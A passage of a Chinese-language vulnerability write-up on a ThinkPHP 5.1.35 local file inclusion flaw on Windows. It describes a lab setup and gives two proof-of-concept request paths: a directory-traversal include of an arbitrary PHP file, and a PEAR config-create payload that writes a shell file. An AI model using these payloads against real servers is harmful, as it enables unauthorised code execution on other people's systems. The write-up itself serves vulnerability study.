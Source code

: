   
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVzniaK8q0STCm0uZ7S3BG6uicFIrEaSfb7NRGDqlB9cTFXYWQshFYtG4iaNg/640?wx_fmt=png "")  
  
  
也就是看文件是否存在，再去loadFile方法，  
      
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVzn90ibWEc2ornDAicFQRR546sTzQvz693C7aGMT0yoSPbBrbx43hqAfhoQ/640?wx_fmt=png "")  
  
  
查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\  
## 1.2: 漏洞利用    
  
  
Version: thinkphp5.1.35  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznkR40YzZItcg0II8FKNq4vshtPVz25cEHYHBsRV9DdQv1W34QyeqibhQ/640?wx_fmt=png "")  
  
  
  
  
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，            内容phpinfo();            

            POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi              
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznickvgaicCxzT94esFv3ZsgShnSdSqAdUwiaTTvnyt2YKpX1uk28U91wTw/640?wx_fmt=png "")  
  
  
      
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznedibUe5ibcbhdPibExtBWNtDZWtIpqicNTX2qV6JKx22hQop6sk21jPicFQ/640?wx_fmt=png "")  
  
  
## 1.3: 命令执行(pear写shell)    
  
  
POC:            /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/+1.php              
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznJPbWQtrldZdibEZoHhX2vbp2B3WVuvzKbgxL3VnCvYvCpgBEVEz05NQ/640?wx_fmt=png "")  
  
  
      
  
  
